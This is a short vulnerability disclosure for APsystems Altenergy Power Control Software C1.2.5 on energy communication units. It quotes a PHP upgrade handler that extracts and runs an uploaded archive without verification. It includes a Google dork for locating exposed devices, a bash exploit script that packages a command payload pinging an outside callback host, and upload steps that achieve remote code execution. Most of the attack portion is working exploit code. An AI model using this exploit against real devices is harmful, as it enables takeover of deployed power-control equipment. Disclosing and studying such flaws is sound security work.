

## title : Insufficient Verification of Data Authenticity "Altenergy Power Control Software" led to RCE
### SW ver: C1.2.5
### Vendor:  https://apsystems.com/
### Google Dork: intitle:"Altenergy Power Control Software"
### Affected device: ENERGY COMMUNICATION UNIT


## POC Video :
[](https://www.youtube.com/watch?v=vU-9gUUVLnc)

## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
 public function exec_upgrade_ecu()
    {
        $results = array();
        $res_array = array();

        exec("rm -rf /tmp/update_localweb/");
        if ($_FILES["file"]["error"] > 0)
        {
            array_push($res_array, "Return Code: " . $_FILES["file"]["error"] . "<br />");
            $results["value"] = 1;
        }
        else
        {
            array_push($res_array, "Upload: " . $_FILES["file"]["name"] . "<br />");
            array_push($res_array, "Type: " . $_FILES["file"]["type"] . "<br />");
            array_push($res_array, "Size: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />");
            array_push($res_array, "Temp file: " . $_FILES["file"]["tmp_name"] . "<br />");        

            move_uploaded_file($_FILES["file"]["tmp_name"], "/tmp/" . $_FILES["file"]["name"]);
            array_push($res_array, "Stored in: " . "/tmp/" . $_FILES["file"]["name"]);
            exec("tar xjvf /tmp/".$_FILES["file"]["name"]." -C /tmp");
            exec("ls /tmp/update_localweb/assist", $temp, $value);
            exec("/tmp/update_localweb/assist &");
            $results["value"] = $value ? 1 : 0;
        }

        $results["result"] = implode("\n",$res_array);
        return $results;
    }

```

## Exploit : 

exploit.sh

```bash
#!/bin/bash
mkdir update_localweb 2>/dev/null
payload='ping -c 1 ahvmb8ham4hkik6ifzt7o8puyl4hs6.burpcollaborator.net'
echo $payload > update_localweb/assist
chmod 777 update_localweb/assist
tar cjvf b4db0t.bin update_localweb/
rm -rf update_localweb 

```
Browse to http://<IP_ADDR>/index.php/management/upgrade_ecu and upload b4db0t.bin
POC : 




  
